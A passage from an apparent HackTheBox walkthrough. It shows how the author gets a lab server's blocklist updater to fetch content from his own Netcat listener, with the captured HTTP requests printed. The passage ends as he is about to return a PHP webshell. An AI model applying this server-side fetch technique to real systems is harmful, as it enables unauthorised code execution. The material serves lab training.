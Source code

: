 ![](/img/image-20200820161648754.png)

I'll start Netcat with `nc -lnvp 80`, and then add the following new
blocklist:

![](/img/image-20200820162029391.png)

First I'll hit Save, and it shows up in the list of blocklists:

[![](/img/image-20200820162352490.png)*Click
for full size
![image*](/img/image-20200820162352490.png)

Then I'll hit Save and Update, and it redirects to a new page, which
hangs waiting on a connection at my `nc`. I'll return it a 200 OK, along
with some arbitrary text, and then Ctrl-C to exit:



    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:39718.
    GET / HTTP/1.1
    Host: 10.10.14.24
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Accept: */*

    HTTP/1.1 200 OK

    0xdf was here!

    ^C



I'll immediately restart the same `nc` listener.

Now the page loads, claiming to have updated the blocklists:

[![](/img/image-20200820162609611.png)*Click
for full size
![image*](/img/image-20200820162609611.png)

Interestingly, it reports that the retrieval from my new blocklist was
successful (and all the others fail, which makes sense, as they are on
the internet which isn't routable from the HTB machines).

I'll click the big blue Update button at the top again, and I get
another connection at `nc`. This time the server sent `.domains`. I'll
respond with a PHP webshell:



    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:40094.
    POST / HTTP/1.1
    Host: 10.10.14.24
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Accept: */*
    Content-Length: 8
    Content-Type: application/x-www-form-urlencoded
